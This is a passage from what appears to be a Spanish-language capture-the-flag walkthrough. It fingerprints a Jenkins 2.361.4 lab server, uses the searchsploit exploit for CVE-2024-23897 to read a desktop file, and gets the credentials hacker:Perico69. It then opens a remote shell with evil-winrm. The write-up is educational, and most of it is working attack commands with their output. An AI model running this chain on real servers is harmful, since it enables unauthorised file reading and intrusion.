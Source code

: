 De ese texto presumimos que hay un fichero **perico.txt** en el escritorio del usuario **hacker.**

Ahora pasamos a ver si hay alguna vulnerabilidad en el servicio web. Como hemos visto antes, en el puerto **6969** hay un servicio web. Empezamos buscando información de que tecnología esta usando:

```bash
whatweb -a 3 http://192.168.200.4:6969
http://192.168.200.4:6969 [200 OK] Cookies[JSESSIONID.d01cdd8a], Country[RESERVED][ZZ], HTML5, HTTPServer[Jetty(10.0.11)], HttpOnly[JSESSIONID.d01cdd8a], IP[192.168.200.4], Jenkins[2.361.4], Jetty[10.0.11], OpenSearch[/opensearch.xml], Prototype, Script[text/javascript], Title[Panel de control [Jenkins]], UncommonHeaders[x-content-type-options,x-hudson-theme,referrer-policy,cross-origin-opener-policy,x-hudson,x-jenkins,x-jenkins-session,x-instance-identity], X-Frame-Options[sameorigin]
```

Vemos que está usando el framework **Jenkins** versión **2.361.4**. 

# Intrusión

Buscamos en la web del incibe a ver si esa versión de Jenkins tiene alguna vulnerabilidad.  Vemos que hay una vulnerabilidad con CVE CVE-2024-23897 que permite la lectura arbitraria de archivos.

[https://www.incibe.es/incibe-cert/alerta-temprana/avisos/lectura-arbitraria-de-archivos-en-jenkins](https://www.incibe.es/incibe-cert/alerta-temprana/avisos/lectura-arbitraria-de-archivos-en-jenkins)

Buscamos con **searchsploit** a ver si tenemos algún exploit disponible (si no encuentra probar a hacer searchsploit -u para actualizar la BBDD):

```bash
$ searchsploit jenkins CVE-2024-23897 

 Exploit Title               |  Path
----------------------------- ---------------------------------
Jenkins 2.441 - Local File I | java/webapps/51993.py
```

Vemos que hay un exploit disponible, nos lo copiamos a nuestra carpeta de trabajo:

```bash
$ cp /usr/share/exploitdb/exploits/java/webapps/51993.py .
```

Ejecutamos el exploit y le indicamos la url con **-u** y el path del fichero con **-p**. En este caso no es necesario añadirle la unidad (c:):

```bash
$ python 51993.py -u http://192.168.200.4:6969 -p /users/hacker/desktop/perico.txt
hacker:Perico69
```

Nos conectamos con `evil-winrm` y las credenciales recién obtenidas:

```bash
evil-winrm -i 192.168.200.4 -u hacker -p Perico69
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\hacker\Documents>
```
